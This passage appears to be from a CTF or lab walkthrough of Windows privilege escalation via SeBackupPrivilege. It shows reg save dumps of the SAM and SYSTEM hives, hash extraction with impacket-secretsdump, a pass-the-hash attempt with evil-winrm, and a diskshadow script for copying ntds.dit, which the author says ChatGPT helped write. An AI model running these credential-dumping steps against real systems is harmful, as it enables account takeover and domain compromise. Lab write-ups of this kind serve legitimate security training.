 We notice that our user has `SeBackupPrivilege`. We can use this privilege to read and obtain any file from the target machine. If we attack SAM, SYSTEM, or ntds.dit, some important files, we can become SYSTEM. So we will try to dump SAM and SYSTEM to get the hashes and become an administrator.
```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam sam
The operation completed successfully.
```

We bring it back to our machine and extract the hashes. 

```bash
$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```bash
$ evil-winrm -i 10.10.88.63 -u Administrator -H 8d992faed38128ae85e95fa35868bb43

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code
```

We see that we cannot log in as a local administrator, so we need to obtain the domain administrator's hash. So we will have to copy the `ntds.dit` database with diskshadow. And here is a script that does the job nicely (ChatGPT was a big help here).

```
set context persistent nowriters
set metadata C:\temp\meta.cab
begin backup
add volume C: alias MyShadow
create
expose %MyShadow% X:
end backup

```
